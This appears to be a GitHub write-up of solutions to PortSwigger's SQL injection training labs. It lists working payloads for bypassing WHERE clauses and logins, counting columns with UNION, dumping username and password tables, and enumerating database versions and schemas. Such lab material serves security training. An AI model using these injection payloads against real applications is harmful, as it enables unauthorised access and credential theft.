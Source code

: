 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*

   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*

  The first step of such an attack is to determine the number of columns that are being returned by the query.
  The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By applying `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database.
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

[6.Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+NULL,'abc'--` we can say the second column has string values.
   Now to retrieve data from only one column we can use the following payload
   `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
   
  `||'~'||` will join `username and password` like  `administrator~wet39rb7kc6kt99lq0o6`
   
 Now to solve the challenge go to Response in Burp Suite and get the username~password `administrator~wet39rb7kc6kt99lq0o6`


<h3>- Examining the database in SQL injection attacks</h3>

[7.Lab: SQL injection attack, querying the database type and version on Oracle]()
 
1. *Solutions*

On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called DUAL which you can use for this purpose. For example: UNION SELECT 'abc' FROM DUAL 

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL--` we can say the first and second columns have string values.
   to retrieve the version of the database, for Oracle we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):

   * SELECT banner FROM v$version
   * SELECT version FROM v$instance
   
   the payload will be like:
   
   `'+UNION+SELECT+banner,NULL+FROM+v$version--`
   
   `'+UNION+SELECT+version,NULL+FROM+v$instance--`
   
[8.Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft) 

 1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL#` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL#` we can say the first and second columns have string values.
   Now to retrieve data from only one column we can use the following payload
   to retrieve the version of the database, for Microsoft DB we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):
   
   Microsoft	SELECT @@version
   
   the payload will be like:
   
   `'+UNION+SELECT+@@version,NULL+FROM+DUAL#`
   
   `'+UNION+SELECT+NULL,@@version+FROM+DUAL#`
   
[9.Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

 1. *Solutions*
 
   As we can see the Database respond for  `'+UNION+SELECT+NULL,NULL--` that is mean there are tow tables.
   By usin payload `'+UNION+SELECT+'abc','xyz'--` we can get that both tables have string values.
   use payload `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.columns-- ` to get table name `users_xxxx`
   use payload `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='USERS_ABCDEF'--` o retrieve the details of the columns in the table (replacing the table name) in my case is `users_ggighe` you can get that by search in bottom right filed in Burp Suite using `users`
    By using `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_ggighe'--` you can see the user_xxxx and password_xxxx
    now change the column by user_xxx,password_xxxx.by using `'+UNION+SELECT+username_xxxx,+password_xxxx+FROM+users_xxxx--`
    then search by administrator and get the password
    finally loging using administrator and its password
    
   
